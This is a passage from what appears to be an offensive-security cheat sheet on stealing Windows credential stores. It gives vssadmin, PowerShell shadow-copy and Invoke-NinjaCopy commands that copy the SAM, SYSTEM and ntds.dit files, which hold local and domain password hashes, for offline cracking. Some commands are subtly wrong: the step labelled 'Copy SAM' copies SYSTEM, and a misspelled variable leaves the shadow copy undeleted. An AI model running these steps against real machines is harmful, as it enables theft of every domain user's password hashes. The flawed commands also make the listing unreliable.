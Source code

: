 You can perform copy of protected files using this service. You need to be Administrator.

#### Using vssadmin

vssadmin binary is only available in Windows Server versions

```bash
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

But you can do the same from **Powershell**. This is an example of **how to copy the SAM file** \(the hard drive used is "C:" and its saved to C:\users\Public\) but you can use this for copying any protected file:

```bash
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public
$voume.Delete();if($notrunning -eq 1){$service.Stop()}
```

Code from the book: [https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html](https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html)

### Invoke-NinjaCopy

Finally, you could also use the [**PS script Invoke-NinjaCopy**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) to make a copy of SAM, SYSTEM and ntds.dit.

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
```

## **Active Directory Credentials - NTDS.dit**

**The Ntds.dit file is a database that stores Active Directory data**, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.
